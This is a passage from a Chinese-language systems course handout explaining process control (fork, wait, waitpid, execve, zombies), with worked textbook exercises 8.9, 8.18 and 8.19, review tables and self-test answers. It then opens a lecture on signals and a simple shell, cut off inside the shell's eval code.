把三步连起来看：正常控制流发起请求，DMA 在处理器之外搬数据，中断形式的异常控制流通知完成。如果没有异常控制流，CPU 就只能反复读取磁盘控制器的状态寄存器来轮询是否完成，这正是课件 p.6 所说的“现有机制不够用”的具体含义。
研讨题 2：进程管理#
2（1）辨析：一个进程和一个程序的异同；一个程序可以对应多个进程吗？一个进程可以对应多个程序吗？在计算机上运行命令展示正在运行的进程，并挑几个说明其功能。
进程是一个正在运行的程序的实例，两者的区别在于静和动：程序是磁盘上的可执行文件，进程是它被加载执行之后的动态实体，拥有自己的 PID、寄存器、地址空间和打开的文件（16.5 节）。相同之处是进程的代码和初始数据来自程序。
两种“多对一”都存在。一个程序可以对应多个进程：把同一个可执行文件运行两次，就得到两个进程，它们有各自的 PID 和地址空间，互不影响。一个进程也可以对应多个程序，是先后关系：进程调用 execve 后，内核用新程序替换它的代码、数据和栈，PID 不变（16.12 节实测，子进程在 execve 前后打印的 PID 相同）。shell 执行每条命令都是后者的例子。
展示进程的命令，默认环境上的输出见 16.5 节。ps -e -o pid,ppid,stat,comm 列出全部进程及父进程和状态，当时共 71 个；top 动态显示每个进程的 CPU 和内存占用，当时 69 个进程中 1 个在运行、68 个在睡眠。挑三个看：PID 1 是 process_api，本环境里它充当 init 的角色，负责回收孤儿进程（16.10 节）；PID 2 是 kthreadd，内核创建内核线程的父进程，它的子进程（名字带方括号的那些）执行内核的后台工作，比如回收内存；其余用户进程的 PPID 最终都能追溯到这两者之一。在普通的桌面 Linux 上，用同样的命令还能看到浏览器、终端模拟器和 shell 各自的进程。
2（2）基于课件第 21～26 页和 28～30 页，讲解进程上下文包含哪些内容，以及是如何切换的。进程切换的时间代价不小，那为什么需要进程切换？
上下文和切换的三步在 16.6 节。进程的上下文包括：通用寄存器、程序计数器、条件码和栈指针；内核返回用户模式所需的信息；地址空间信息（页表）；以及内核进程表中的内容，比如打开文件表、收到的信号、PID 和状态。前一组每次切换都要保存和恢复，后几组保存在内存里，切换时改变“当前进程”指向谁。
切换的过程是（课件 p.24–26，图 6）：内核先把当前进程的寄存器保存到内存中它的上下文里；再按调度策略选择下一个进程；然后把那个进程保存的寄存器装回处理器，切换到它的地址空间，从它上次停下的指令继续执行。触发切换的是两类事件：进程自己执行系统调用并需要等待（主动让出），或者定时器中断到来、内核判定当前进程的时间片用完（强制换下）。/proc/<pid>/status 里的两个计数器分别统计这两种次数（16.6 节的实测：20 次 usleep 对应恰好 20 次主动切换，三个进程抢两个核时每个有七八百次被动切换）。
需要切换的理由见 16.6 节的问答：等待 I/O 时让出处理器才能提高利用率，定时抢占才能保证交互程序的响应，独立的地址空间才能让进程互不拖累。切换的代价（缓存和 TLB 失效，直接开销在微秒量级）是为这三件事付的费。
2（3）对比课件第 27 页和之前的相关页面，分析在多核上的进程上下文切换和单核上有什么不同？
课件 p.23–26 是单处理器：任何时刻只有一个进程在执行，并发完全靠切换制造，切换在唯一的一套寄存器上进行。课件 p.27 是多核：每个核有自己的寄存器组，共享主存，多个进程真正同时执行。
差别有三点（16.6 节）。第一，并行不再依赖切换：不同核上的进程指令在时间上真正重叠，单核上那种整齐的交替不再是唯一的形态。第二，切换是每个核各自的事：保存和恢复只涉及那个核的寄存器，但选择下一个进程时必须在核之间协调，避免两个核选中同一进程，也要尽量让一个进程留在同一个核上以利用缓存。第三，对程序可见的后果是，没有明确顺序保证的事情会以更多的顺序发生，而且更频繁——单核上两个进程修改共享状态的时机受切换点限制，多核上它们可以同时各执行一条指令。
2（4）基于课件第 39 页，结合此前页面的基础知识，讲解用 fork 创建进程的程序示例。
课件 p.39 的程序见 16.8 节。调用 fork 之前，进程有一个局部变量 x，值为 1。fork 制作整个执行状态的副本，在父进程中返回子进程的 PID，在子进程中返回 0，两个进程从同一条 if 语句继续执行。
子进程走 pid == 0 的分支，执行 ++x 后打印 child : x=2。父进程走另一个分支，执行 --x 后打印 parent: x=0。这个结果说明三件事。第一，fork 调用一次、返回两次，返回值是两个进程执行不同代码的唯一依据。第二，子进程得到的是地址空间的独立副本：两边都从 x = 1 开始，此后的修改互不可见，否则父进程会看到子进程加过的值。第三，执行顺序不确定：课件四次运行有一次是子进程先打印，默认环境上 1000 次中有 59 次是子进程先打印。共享的部分是打开的文件描述符，所以两个进程的输出出现在同一个终端上。
2（5）基于课件第 42 页的 forkx2 示例，从现有输出结果推演出进程切换的顺序，再分析还可能有什么样的输出结果。进而同样方式讲解第 46～48 页的程序示例。
forkx2 在 p.39 的基础上让每个进程打印两次（16.8 节）：子进程打印 child : x=2 和 child : x=3，父进程打印 parent: x=0 和 parent: x=-1。课件给出的输出是父进程的两行在前、子进程的两行在后，对应的切换顺序是：fork 返回后父进程一直运行到终止，然后才调度子进程。
还可能有的输出，受两条约束限制：同一个进程的两行有固定顺序（先打印 2 再打印 3，先打印 0 再打印 −1），两个进程之间没有约束。所以是从四个输出里选两个位置给父进程的排列数，共 6 种：
C2 C3 P0 P-1
C2 P0 C3 P-1
C2 P0 P-1 C3
P0 C2 C3 P-1
P0 C2 P-1 C3
P0 P-1 C2 C3每一种都对应一种切换顺序，比如第二种表示子进程打印第一行后被换下、父进程打印第一行后被换下、子进程再运行到结束。默认环境上让输出行缓冲并在两次打印之间睡眠，这 6 种里的 4 种实际出现过；不加干预时绝大多数是最后一种。
p.46–48 的三个例子用同样的方法，完整的进程图、全部可行输出和课件判断的核对见 16.9 节与 表 4，这里讲推演的过程。fork2 有两次不受限制的 fork，共四个进程：L0 只打印一次且必定最先（它在任何 fork 之前），L1 打印两次，Bye 打印四次。课件给的不可行输出把一个 Bye 放在了任何 L1 之前，这不可能，因为每个打印 Bye 的进程在此之前必定已经（由自己或在 fork 之前由父进程）打印过 L1。fork4 和 fork5 的第二次 fork 都只在一支中执行，所以各有三个进程、三个 Bye；两者的差别在于第二次 fork 由谁执行，因而 L1 和 L2 出现在哪一支。课件给的两个不可行输出都把 L2 放在最后，而打印 L2 的进程在 L2 之后还有自己的 Bye 要打印，所以 L2 不可能是最后一行。
2（6）基于课件第 51～52 页的示例，结合前面几页的基础，讲解关于进程终止的过程，然后讲解进程是如何回收的，以及什么情况下会没有回收和会导致什么结果。
终止的三种原因和 exit 的语义见 16.10 节：收到默认行为是终止的信号、从 main 返回，或调用 exit。exit 先调用 atexit 登记的函数、刷新标准 I/O 的缓冲区，再通过系统调用进入内核；退出状态被内核保存下来。
回收的过程见 16.10 节。终止的进程在被父进程回收之前称为僵死进程，仍占用进程表表项。父进程调用 wait 或 waitpid 时，内核把退出状态交给父进程，并删除这个僵死进程。如果父进程自己先终止，子进程成为孤儿，被 1 号进程（或 subreaper）收养并负责回收。
课件的两个例子分别是两种“没有回收”。fork7 中父进程进入死循环、从不调用 wait，子进程 exit 后一直是僵死进程：默认环境上 ps 显示它的状态为 Z、命令名为 [forks] <defunct>，直到父进程被 kill，它才被 1 号进程收养并回收。长期运行的程序如果这样做，僵死进程会持续积累，最终耗尽进程表，系统无法再创建新进程。fork8 中父进程先终止，子进程成为孤儿继续运行：ps 显示它的 PPID 变成了 1，状态仍是 R，CPU 时间不断增加。这种进程不会自己结束，必须显式 kill，否则一直占用处理器。
2（7）基于课件第 53～55 页，讲解父进程如何用 wait() 函数确保回收子进程。
wait 挂起父进程，直到它的某个子进程终止，返回该子进程的 PID，并把终止原因和退出状态写入参数指向的整数（16.11 节）。父进程只要对每个子进程调用一次 wait，就能保证全部回收。终止原因要用宏解读：WIFEXITED 为真表示正常终止，再用 WEXITSTATUS 取退出状态；WIFSIGNALED 为真表示被信号终止，再用 WTERMSIG 取信号编号。
wait 同时是一种同步手段，fork9（课件 p.55）是例子：父进程在 wait 之后才打印 CT，而 wait 一定在子进程终止之后返回，所以 CT 和 Bye 一定出现在子进程的 HC 之后。HC 和 HP 之间没有约束，因此恰好有两种可行输出，课件列出的两种都正确，列出的不可行输出 HP CT Bye HC 违反了 wait 建立的先后关系。默认环境上运行 2000 次，两种可行输出分别出现 48 次和 1952 次。
2（8）基于课件第 56～57 页，讲解两个比较复杂的使用 wait() 函数的示例。
两个例子都创建 N 个子进程（N 为 5），每个以退出状态 100 + i 终止，差别在父进程怎样等待（16.11 节）。
fork10 用 wait 循环 N 次。wait 回收任意一个已终止的子进程，所以回收顺序不确定：默认环境上 200 次运行里约九成是创建顺序（100 到 104），其余十来种顺序都出现过，比如 100、101、102、104、103。课件备注里“总是按顺序”的现象来自实验环境的延迟设置，关掉父进程的延迟就能看到变化，说明这个顺序是调度的结果而不是程序的保证。
fork11 把 wait 换成 waitpid(pid[i], &child_status, 0)，并按 i 从大到小等待。waitpid 的第一个参数指定等待哪一个子进程，父进程因此按自己的顺序逐个回收，输出总是 104、103、102、101、100，与子进程实际终止的先后无关。两者的对比说明：要顺序无关的回收用 wait，要指定对象的回收用 waitpid。
补充 waitpid 的两个常用选项（教材 8.4.3 节，课件只说见教材）：WNOHANG 让它在子进程尚未终止时立即返回 0 而不是挂起，父进程可以轮询；出错时返回 −1，没有子进程时 errno 为 ECHILD，被信号打断时 errno 为 EINTR。
2（9）基于课件第 58～59 页，讲解 execve 函数的功能，重点是如何用创建进程的方式运行一个指定的程序文件，而不是与原先相同的进程。
execve 的功能是在当前进程中加载并运行一个新程序：用新程序的代码、数据和栈覆盖原有的，PID、打开的文件和信号处理保持不变；调用一次，成功时不返回，失败时返回 −1（16.12 节）。参数有三个：程序路径 filename（可以是可执行文件，也可以是 #! 开头的脚本）、参数列表 argv（以 NULL 结尾，argv[0] 按惯例是程序名）、环境变量列表 envp（"name=value" 形式，以 NULL 结尾）。
“用创建进程的方式运行一个指定的程序”需要 fork 和 execve 配合，这正是课件 p.59 的代码：父进程 fork 出子进程；子进程调用 execve(myargv[0], myargv, environ)，成功后子进程里运行的就是 /bin/ls 而不是原来的程序，原来程序中 execve 后面的代码不会执行；父进程继续运行原来的程序，并用 waitpid 等待子进程结束。这样得到的效果是：指定的程序运行在一个新的进程里，调用者的进程不受影响。
默认环境上的实测确认了每个环节：子进程的 PID 在 execve 前后不变；argv 和 envp 原样传给新程序；路径不存在时 execve 返回 −1，子进程打印 "Command not found." 并以状态 1 退出，父进程照常继续；运行一个 #!/bin/sh 脚本时，内核启动 sh 解释它，脚本中打印的 PID 就是子进程的 PID。这个 fork、execve、waitpid 的组合就是 shell 执行命令的骨架。
第三部分 作业题解答：8.9、8.18、8.19#
三道题在中文版第 550–553 页，英文国际版的题目与之相同。8.9 是判断题；8.18 和 8.19 的答案都用程序核对过：8.18 的每个选项用进程图枚举器判定，并实际运行 2000 次对照（运行结果只能佐证“可能”）；8.19 对 n = 1 到 6、8、10 实际运行，数输出的行数。
作业 8.9#
8.9考虑四个具有如下开始和结束时间的进程（见下表）。对于每对进程，指明它们是否是并发地运行的。
表 9 作业 8.9 的四个进程（中文版第 550 页）
| 进程 | 开始时间 | 结束时间 |
|---|---|---|
| A | 5 | 7 |
| B | 2 | 4 |
| C | 3 | 6 |
| D | 1 | 8 |
按 16.5 节的定义，两条逻辑控制流的时间区间有重叠就是并发，否则是顺序。把四个区间画出来：D 从 1 延伸到 8，覆盖全程；B 从 2 到 4，C 从 3 到 6，两者在 3 到 4 之间重叠；A 从 5 到 7，与 C 在 5 到 6 之间重叠，与 B 之间有空隙。逐对检查：
表 10 作业 8.9 的答案
| 进程对 | 并发地？ | 理由 |
|---|---|---|
| AB | 否 | A 在时刻 5 开始，B 在时刻 4 已经结束 |
| AC | 是 | 两者在时刻 5 到 6 之间重叠 |
| AD | 是 | D 的区间 [1, 8] 完全覆盖 A 的 [5, 7] |
| BC | 是 | 两者在时刻 3 到 4 之间重叠 |
| BD | 是 | D 的区间完全覆盖 B 的 [2, 4] |
| CD | 是 | D 的区间完全覆盖 C 的 [3, 6] |
六对里只有 AB 是顺序的，其余五对都并发。这道题的数据没有“一个的结束时刻恰好等于另一个的开始时刻”这种边界情况，所以不涉及端点是否算重叠的约定。
作业 8.18#
8.18考虑下面的程序，判断下面哪个输出是可能的。注意：atexit 函数以一个指向函数的指针为输入，并将它添加到函数列表中（初始为空），当 exit 函数被调用时，会调用该列表中的函数。
A. 112002 B. 211020 C. 102120 D. 122001 E. 100212
void end(void)
{
printf("2"); fflush(stdout);
}
int main()
{
if (fork() == 0)
atexit(end);
if (fork() == 0) {
printf("0"); fflush(stdout);
}
else {
printf("1"); fflush(stdout);
}
exit(0);
}先看清有几个进程、每个进程输出什么。第一次 fork 产生子进程 C1，只有它执行 atexit(end)。第二次 fork 由父进程和 C1 各自执行一次：父进程 fork 出 C2，C1 fork 出 C3。关键在于 C3 是 C1 在登记 end 之后才 fork 出来的，atexit 登记的函数列表是地址空间的一部分，会被子进程继承，所以 C3 终止时同样会打印 2。最终有四个进程：
表 11 作业 8.18 的四个进程各自的输出
| 进程 | 输出 | 说明 |
|---|---|---|
| 父进程 | 1 | 两次 fork 的返回值都不是 0，走 else 分支；没有登记 end |
| C2（父进程的子进程） | 0 | 第二次 fork 返回 0；它继承的是父进程的空列表，不打印 2 |
| C1（第一个子进程） | 1，然后 2 | 登记 end 后走 else 打印 1，exit 时执行 end 打印 2 |
| C3（C1 的子进程） | 0，然后 2 | 继承了 C1 的登记；打印 0 后 exit，执行 end 打印 2 |
总输出是六个字符：两个 0、两个 1、两个 2。四个进程之间没有 wait，先后约束只有两条：C1 的 1 在 C1 的 2 之前，C3 的 0 在 C3 的 2 之前。换句话说，每个 2 的前面都必须有“属于它的”那个字符：一个 2 前面要有一个 1（C1 的），另一个 2 前面要有一个 0（C3 的）。父进程的 1 和 C2 的 0 可以出现在任何位置。
用这条规则逐个检查选项。判断时要注意，相同的字符可能来自不同的进程，要尝试所有的归属方式，只要有一种满足约束就可行。
表 12 作业 8.18 各选项的判定（与枚举器的结果一致）
| 选项 | 是否可能 | 理由 |
|---|---|---|
| A. 112002 | 可能 | 第 1、2 位的 1 分别归父进程和 C1，第 3 位的 2 归 C1；第 4、5 位的 0 归 C2 和 C3，第 6 位的 2 归 C3 |
| B. 211020 | 不可能 | 第一个字符就是 2，它前面没有任何字符，不论归 C1 还是 C3 都违反约束 |
| C. 102120 | 可能 | 第 2 位的 0 归 C3，第 3 位的 2 归 C3；第 4 位的 1 归 C1，第 5 位的 2 归 C1；第 1 位的 1 归父进程，第 6 位的 0 归 C2 |
| D. 122001 | 不可能 | 第 2、3 位是两个 2，它们前面只有一个 1。两个 2 中有一个属于 C3，它前面必须有 C3 的 0，而前两位里没有 0 |
| E. 100212 | 可能 | 第 2 位的 0 归 C3，第 4 位的 2 归 C3；第 5 位的 1 归 C1，第 6 位的 2 归 C1；第 1 位的 1 归父进程，第 3 位的 0 归 C2 |
用 16.9 节的枚举器对这个程序做拓扑排序，全部可行输出共 50 种，五个选项的判定与上表一致。实际运行 2000 次，得到 24 种不同的输出：A 出现 149 次，E 出现 7 次，C 一次也没有出现，B 和 D 也没有出现。C 没有出现，并不说明它不可能：它要求 C3 抢在 C1 之前打印并终止，而 C3 是最后创建的进程，这种调度很少发生。可行的 50 种里只有 24 种在 2000 次运行中被碰到，所以“是否可能”要以约束分析或枚举为准，运行结果只能证明“可能”，不能证明“不可能”。
⚠ 这道题最常见的错误
一是忽略 atexit 的继承，以为只有 C1 打印 2，于是认为输出只有五个字符，或者认为含两个 2 的选项都不可能。二是把相同的字符归到同一个进程上，比如看到 E 的末尾是 1、2，就以为 C1 的 2 必须紧跟着它的 1，而忽略了第 4 位的 2 可以属于 C3。
答案
可能的是 A、C、E；不可能的是 B 和 D。B 以 2 开头，而每个 2 前面必须有它所属进程先打印的 1 或 0；D 的前三个字符里两个 2 只能共用一个 1，C3 的 2 前面缺少 0。
作业 8.19#
8.19下面的函数会打印多少行输出？用一个 n 的函数给出答案。假设 n ≥ 1。
void foo(int n)
{
int i;
for (i = 0; i < n; i++)
fork();
printf("hello\n");
exit(0);
}循环开始前有 1 个进程。每迭代一次，所有现有的进程都执行一次 fork，每个进程变成两个，进程数翻倍。循环结束后共有 2n 个进程，每个进程执行一次 printf 打印一行，所以输出是 2n 行。
这个计数假设每个 printf 的输出恰好出现一次，这里成立：格式串以换行结尾，输出到终端时按行缓冲立即送出；即使输出到文件变成全缓冲，hello\n 在 fork 之前还没有执行，缓冲区是空的，fork 复制走的缓冲区里没有内容，不会出现 16.13 节那种行数翻倍。
答案
2n 行。默认环境上实测：n = 1、2、3、4、5、6、8、10 时，输出行数分别为 2、4、8、16、32、64、256、1024。
第四部分 复习速查#
4.1 异常与系统调用#
表 13 四类异常速查（16.2 节）
| 类别 | 同步性 | 原因 | 返回行为 |
|---|---|---|---|
| 中断 | 异步 | 外部事件：定时器、I/O 设备 | 总是返回下一条指令 |
| 陷阱 | 同步 | 有意的：系统调用、断点 | 返回下一条指令 |
| 故障 | 同步 | 无意但可能恢复：缺页、保护故障 | 重执行当前指令，或终止程序 |
| 终止 | 同步 | 不可恢复的硬件错误：机器检查 | 不返回，终止程序 |
表 14 x86-64 Linux 常用系统调用号（16.3 节；glibc 2.39 实际使用的调用见备注）
| 号 | 名字 | C 库函数 | 备注 |
|---|---|---|---|
| 0 | read | read | |
| 1 | write | write | |
| 2 | open | open | 新的 glibc 改用 257 号 openat |
| 3 | close | close | |
| 9 | mmap | mmap | malloc 大块分配的底层 |
| 12 | brk | brk | malloc 小块分配的底层 |
| 39 | getpid | getpid | |
| 56 | clone | fork | glibc 的 fork 实际走 clone |
| 57 | fork | — | 调用号仍存在，库不再直接用 |
| 59 | execve | execve | |
| 60 | _exit | _exit | 不执行 atexit 和刷新缓冲区 |
| 61 | wait4 | wait、waitpid | |
| 62 | kill | kill | |
| 231 | exit_group | exit | 终止全部线程；exit 先做收尾再调用它 |
系统调用约定：调用号在 %rax，参数依次在 %rdi、%rsi、%rdx、%r10、%r8、%r9（第四个是 %r10 不是 %rcx），返回值在 %rax，绝对值很大的负数表示出错。
4.2 进程控制函数#
表 15 进程控制函数速查（16.7–16.12 节）
| 原型 | 返回值 | 要点 |
|---|---|---|
| pid_t fork(void) | 父进程：子进程 PID；子进程：0；出错：−1 | 调用一次返回两次；子进程得到地址空间的独立副本和文件描述符的副本；执行顺序不确定 |
| void exit(int status) | 不返回 | 先执行 atexit 函数（与登记相反的顺序）、刷新标准 I/O，再进入内核；退出状态只保留低 8 位 |
| void _exit(int status) | 不返回 | 直接进入内核，不做上面的收尾 |
| pid_t getpid(void) | 当前进程 PID | |
| pid_t getppid(void) | 父进程 PID | |
| pid_t wait(int *status) | 被回收子进程的 PID；出错 −1 | 等待任意一个子进程终止；没有子进程时 errno = ECHILD |
| pid_t waitpid(pid_t pid, int *status, int options) | 被回收子进程的 PID；WNOHANG 且未终止时返回 0；出错 −1 | pid 为 −1 等价于 wait；WNOHANG 不挂起 |
| int execve(const char *filename, char *const argv[], char *const envp[]) | 成功不返回；出错 −1 | 覆盖当前进程的代码、数据和栈，PID 不变；argv 和 envp 都以 NULL 结尾 |
解读 wait 状态的宏：WIFEXITED 为真再用 WEXITSTATUS 取退出状态（0–255）；WIFSIGNALED 为真再用 WTERMSIG 取信号编号。shell 报告的退出状态是 128 加信号编号，例如段错误为 139、除以零为 136、非法指令为 132。
4.3 判断输出的步骤#
数行数时，每次不受限制的 fork 使进程数翻倍，n 次共 2n 个进程；fork 在条件中时按分支分别计数；每个进程执行 printf 的次数乘上进程数即行数。
判断可行性时，列出每个进程的语句序列和先后约束（同进程内的程序顺序、wait 与子进程终止的顺序），一个输出可行当且仅当存在满足全部约束的排列。相同的输出字符可能来自不同进程，归错进程是最常见的错误。
两类题目都要留意缓冲区：printf 的输出连着终端时按行缓冲、连着文件或管道时全缓冲；缓冲区在用户空间，fork 会复制它，未送出的内容会在父子进程中各输出一次。统计输出顺序前先 fflush 或用 stdbuf -oL。
4.4 常用命令#
ps -e -o pid,ppid,stat,comm # 列出进程；STAT 中 Z 表示僵死，R 运行，S 睡眠
top # 动态查看进程的 CPU 和内存占用
strace -c ./prog # 按系统调用汇总一个程序的内核请求
strace -e trace=openat,write ./prog
cat /proc/<pid>/status # voluntary_ctxt_switches 等计数
LD_PRELOAD=./myfork.so ./prog # 用打桩给 fork 加随机延迟（15.15 节）
stdbuf -oL ./prog | cat # 强制行缓冲，避免管道合并输出第五部分 自测题#
每题先自己做，再翻答案。答案中的“实测”都是默认环境上的结果。
1．下面哪个属于异常控制流？(a) je 条件跳转；(b) call 指令；(c) 定时器中断；(d) ret 指令。
2．缺页故障的处理程序把页面装入内存后，控制返回到哪里？为什么不是返回到下一条指令？
3．x86-64 上系统调用的第四个参数放在哪个寄存器？它和普通函数调用的约定有什么不同？
4．一个进程调用 getpid()，strace 显示 getpid() = 4242。再调用 fork()，父进程和子进程各自再调用一次 getpid()，两个返回值是什么关系？
5．下面的程序输出到终端，可能的输出有哪些？输出到文件呢？
int main(void)
{
printf("X");
fork();
printf("Y\n");
return 0;
}6．判断输出是否可能。程序是：
int main(void)
{
if (fork() == 0) {
printf("A\n");
exit(0);
}
printf("B\n");
wait(NULL);
printf("C\n");
return 0;
}(a) A B C；(b) B A C；(c) B C A；(d) A C B。
7．父进程创建了三个子进程，然后调用三次 wait(NULL)。能不能确定三个子进程按创建顺序被回收？怎样修改才能按指定顺序回收？
8．一个程序的最后两行是 execve("/bin/ls", argv, environ); printf("done\n");。什么情况下会打印 done？
9．exit(259) 和 exit(-1) 之后，父进程用 WEXITSTATUS 读到的退出状态各是多少？
10．为什么说“僵死进程占用资源”？它还占用 CPU 吗？怎样从 ps 的输出里认出它？
自测题答案#
1．只有 (c)。(a)(b)(d) 都是程序自己安排的控制转移，属于正常控制流（16.1 节）。定时器中断由处理器外部的事件触发，把控制转入内核，是异步异常。
2．返回到引起故障的那条指令，重新执行它（16.4 节）。因为那条指令还没有成功完成：它要访问的数据当时不在内存里。返回到下一条指令会跳过这次访问，程序的结果就错了。这是故障与陷阱的区别之一：陷阱的指令已经完成了它的任务（请求内核服务），所以返回下一条。
3．%r10。普通函数调用的第四个参数在 %rcx，而 syscall 指令会覆盖 %rcx（用它保存返回地址），所以系统调用约定把第四个参数改到 %r10（16.3 节）。前三个参数 %rdi、%rsi、%rdx 两种约定相同。
4．两个返回值不同：父进程得到原来的 4242，子进程得到一个新的 PID。fork 复制地址空间，但不复制 PID；getpid 每次都向内核查询，不是从内存里读一个复制来的值。
5．无论输出到终端还是文件，结果都是两行 XY（16.13 节）。X 后面没有换行，即使是行缓冲也留在缓冲区里；fork 把缓冲区一起复制给子进程，父子进程各自在缓冲区里追加 Y\n 并输出，所以 X 出现两次。如果在 fork 之前加 fflush(stdout)，X 只输出一次，结果是 XY 和 Y 两行。
6．(a) 和 (b) 可能，(c) 和 (d) 不可能。(c) 要求 C 在 A 之前，但 C 在 wait 之后，wait 要等子进程终止，而子进程在打印 A 之后才终止。(d) 要求 C 在 B 之前，两者是同一个进程的两条语句，顺序固定。这个程序就是 fork9 的简化版（16.11 节）。
7．不能。wait 回收任意一个已终止的子进程，顺序由调度决定（16.11 节，fork10 的 200 次运行里约一成不是创建顺序）。要按指定顺序回收，保存每个子进程的 PID，按希望的顺序调用 waitpid(pid, &status, 0)。
8．只有 execve 失败时，比如路径不存在或文件不可执行。成功时新程序覆盖了当前进程，printf 那一行已经不在内存里了（16.12 节）。所以 execve 后面的代码应当是报错和退出，正常情况下不会执行到。
9．3 和 255。退出状态只保留低 8 位：259 = 256 + 3，−1 的低 8 位是 255（16.11 节，实测）。有效的退出状态范围是 0 到 255。
10．僵死进程已经终止，不再被调度，不占用 CPU；它占用的是进程表的表项和内核为它保存的退出状态（16.10 节）。ps 的 STAT 列显示 Z，命令名后面带 <defunct>。它会一直留到父进程调用 wait，或者父进程自己终止、由 1 号进程收养后回收。
—— 第 16 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 17 讲
异常控制流：信号与非本地跳转（Exceptional Control Flow: Signals and Nonlocal Jumps）
如何使用本讲义#
上一讲的异常和上下文切换都发生在硬件与内核之间，应用程序感觉不到。这一讲往上走一层：内核怎样把“发生了某件事”通知给一个进程，进程又怎样对它作出反应。这种通知就是信号（signal）。课件分成三部分。第一部分是一个简单的 shell（17.1 节）：它用上一讲的 fork、execve、waitpid 运行程序，却回收不了后台作业，这个问题要靠信号解决。第二部分是信号本身，篇幅最大：信号的待处理位和阻塞位（17.2 节），怎样发送（17.3 节）和接收（17.4 节），怎样安装处理程序（17.5 节），处理程序与主程序的并发（17.6 节），阻塞信号（17.7 节），以及编写安全的处理程序时要遵守的规则（17.8–17.11 节）。第三部分是非本地跳转（17.12 节）：setjmp 和 longjmp 让程序绕过正常的调用与返回，直接跳回到某个尚未返回的函数里。17.13 节把“分析带信号的程序的输出”这类考题的做法整理成固定的步骤。17.14 节是拓展：shell 的内置命令、管道、重定向和退出状态怎样用本讲的机制实现，bash、zsh、fish、PowerShell 等 shell 各做了什么取舍。17.15 节是小结。
信号的行为很多是“可能这样、也可能那样”，讲义对每个程序都给出两样东西：按规则推出的全部可能，以及在默认环境上实际运行若干次的统计。统计只能说明“通常怎样”，不能代替推理。课件中有几处说法在今天的系统上需要补充，用橙色方框指出。
表 1 第 17 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 进程层次与 shell（p.2–9） | shell 做什么；什么是前台作业、后台作业 | 17.1 |
| 简单 shell 的实现（p.10–20） | 读命令、fork、execve、waitpid；后台作业为什么会变成僵死进程 | 17.1 |
| 信号的概念（p.22–25） | 信号是什么；待处理位与阻塞位；信号不排队 | 17.2 |
| 发送信号（p.26–37） | 内核在什么情况下发信号；进程组；kill 程序、键盘、kill 函数 | 17.3 |
| 接收信号（p.38–41） | 进程在什么时刻接收信号；pnb；四种默认行为 | 17.4 |
| 安装处理程序（p.42–43） | signal 函数；SIG_IGN、SIG_DFL；哪些信号不能捕获 | 17.5 |
| 处理程序是并发流（p.44–46） | 处理程序与主程序交错执行；嵌套 | 17.6 |
| 阻塞信号（p.47–48） | 隐式阻塞；sigprocmask 与信号集函数 | 17.7 |
| 安全的信号处理（p.49–53） | G0–G5 六条规则；异步信号安全；SIO | 17.8 |
| 信号不排队（p.54–55） | 不能用信号计数；回收子进程要用循环 | 17.9 |
| 同步流以避免竞争（p.56–58） | addjob 与 deletejob 的竞争及其修正 | 17.10 |
| 显式等待信号（p.59–65） | 忙等、pause、sleep 的问题；sigsuspend；事件驱动 | 17.11 |
| 非本地跳转（p.67–73） | setjmp、longjmp；它们的限制；ctrl-c 时重新开始的程序 | 17.12 |
| 专题：带信号的程序的输出 | 往年考题的做法与实测 | 17.13 |
| 讲义拓展：shell 的设计 | 终端与 shell 的区别；内置命令、管道与重定向、退出状态、文本流；POSIX sh、bash、zsh、fish、PowerShell 的取舍；Windows 的进程模型；与 Shell Lab 的关系 | 17.14 |
| 小结（p.74） | 本讲与上一讲的“调用一次，返回几次” | 17.15 |
第一部分 知识点#
17.1 shell：前台作业与后台作业（课件 p.2–20）#
课件 p.2 把异常控制流按层次排了一遍：最低层的异常由硬件和操作系统内核实现，上下文切换由硬件定时器和内核实现，这两层是上一讲的内容；往上是信号，由内核和应用程序共同实现；最高层是非本地跳转，完全在应用程序内部。本讲讲后两层。课件 p.3–4 先回顾了上一讲的进程控制函数：fork 调用一次、返回两次；execve 调用一次、正常情况下不返回；exit 调用一次、从不返回，并让进程成为僵死进程；wait 和 waitpid 回收终止的子进程。
进程的层次与 shell#
Linux 系统中的进程组成一棵树（课件 p.6）。系统启动时内核创建 0 号进程，它再创建 1 号进程 init（今天的发行版中通常是 systemd），之后所有进程都是 init 的后代：有的是长期运行的守护进程（daemon），比如 Web 服务器；有的是用户登录后得到的 shell，用户在 shell 里运行的程序又是 shell 的子进程，它们还可以有自己的子进程。用 pstree 命令可以看到这棵树。
shell 是一个代表用户运行其他程序的应用程序（课件 p.7），常见的有最早的 sh、BSD 的 csh 和 tcsh，以及 Linux 默认的 bash。shell 的工作就是一个循环：读入一行命令，执行它，再读下一行（课件 p.10）。命令有两种：一种是 shell 自己就能完成的内置命令，比如 quit、cd、jobs；另一种是一个可执行文件的路径，shell 要创建一个子进程，在子进程中加载并运行这个程序。
运行一个程序时，用户可以选择等它结束，也可以不等。用户在命令末尾加 &，就是告诉 shell 不要等（课件 p.9）：
unix> sleep 7200; rm /tmp/junk # shell 被卡住两个小时
unix> (sleep 7200 ; rm /tmp/junk) &
[1] 907
unix> # 立即可以输入下一条命令shell 等待它结束的程序称为前台作业（foreground job），不等待的称为后台作业（background job）。一个“作业”是为了执行一条命令行而创建的所有进程，比如一条带管道的命令会创建好几个进程，它们属于同一个作业。课件的简单 shell 不支持管道，一个作业就是一个进程。
一个简单的 shell#
课件 p.10–18 逐行讲解了教材 8.4.6 节的 shellex.c。主程序是一个读入并求值的循环：
int main(int argc, char** argv)
{
char cmdline[MAXLINE]; /* command line */
while (1) {
/* read */
printf("> ");
Fgets(cmdline, MAXLINE, stdin);
if (feof(stdin))
exit(0);
/* evaluate */
eval(cmdline);
}
}每一行命令交给 eval 处理：
void eval(char *cmdline)
{
char *argv[MAXARGS]; /* Argument list execve() */
char buf[MAXLINE]; /* Holds modified command line */
int bg; /* Should the job run in bg or fg? */
pid_t pid; /* Process id */
strcpy(buf, cmdline);
bg = parseline(buf, argv);
if (argv[0] == NULL)
return; /* Ignore empty lines */
if (!builtin_command(argv)) {
if ((pid = Fork()) == 0) { /* Child runs user job */
if (execve(argv[0], argv, environ) < 0) {
printf("%s: Command not found.\n", argv[0]);
exit(0);
}
}
/* Parent waits for foreground job to terminate */
if (!bg) {
int status;
if (waitpid(pid, &status, 0) < 0)
unix_error("waitfg: waitpid error");
}
else
printf("%d %s", pid, cmdline);
}
return;
